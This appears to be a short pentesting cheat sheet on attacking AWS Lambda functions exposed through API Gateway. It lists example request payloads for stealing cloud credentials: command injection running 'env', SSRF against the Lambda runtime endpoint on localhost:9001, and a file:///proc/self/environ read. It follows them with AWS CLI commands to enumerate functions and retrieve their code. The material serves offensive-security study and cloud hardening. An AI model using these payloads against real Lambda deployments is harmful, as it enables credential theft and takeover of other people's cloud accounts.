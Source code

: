 # AWS Lambda and API Gateway Initial Access

### Its possible to get RCE through API Gateway if it executes commands.

### If you can execute commands, there is a way to retrieve keys from the API Gateway, just use env , configure aws cli and proceed with the exploitation.

# Credential Access

### Getting credentials from Lambda can be done in 2 ways

#### 1) Keys in the source code

#### 2) Keys in the enviromnent variables

### These keys can be gathered using SSRF, RCE and so on.

## Getting credentials using RCE

    https://apigateway/prod/system?cmd=env

## Getting credentials using SSRF

    https://apigateway/prod/example?url=http://localhost:9001/2018-06-01/runtime/invocation/

## Getting credentials using SSRF and wrappers

    https://apigateway/prod/system?cmd=file:///proc/self/environ

## Getting credentials from lambda enviroment variables (cli)

### It's important to enumerate the functions first with: 

    aws lambda list-functions

### Then:

    aws lambda get-function --function-name NAME 
